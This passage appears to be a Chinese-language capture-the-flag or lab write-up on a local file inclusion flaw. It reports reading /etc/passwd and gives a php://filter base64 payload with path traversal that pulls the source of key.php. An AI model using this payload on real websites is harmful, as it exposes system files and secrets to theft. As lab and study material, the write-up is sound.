 测试包含/etc/passwd，成功
![upload successful](./images/pasted-819.png)

直接包含key.php发现无法显示完全
![upload successful](./images/pasted-820.png)

用php伪协议尝试，成功读取key
```
fu1.php?file=php://filter/convert.base64-encode/resource=../key.php
```